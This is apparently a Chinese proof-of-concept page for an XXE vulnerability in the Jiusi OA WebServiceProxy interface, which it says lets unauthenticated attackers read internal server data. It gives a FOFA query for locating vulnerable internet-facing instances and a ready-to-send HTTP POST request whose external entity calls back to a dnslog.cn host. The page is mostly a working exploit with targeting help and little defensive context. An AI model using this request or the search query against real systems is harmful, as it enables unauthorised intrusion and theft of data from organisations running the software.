 # 九思OA接口WebServiceProxy存在XXE漏洞

九思OA接口isoaNebServiceProxy 存在XML实体注入漏洞，未经身份认证的攻击者可利用此漏洞获取服务器内部敏感数据。

## fofa

```yaml
body="/jsoa/login.jsp"
```

## poc

```java
POST /jsoa/WebServiceProxy HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close
 
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://11111.edbxqa.dnslog.cn"> %remote;]>
```

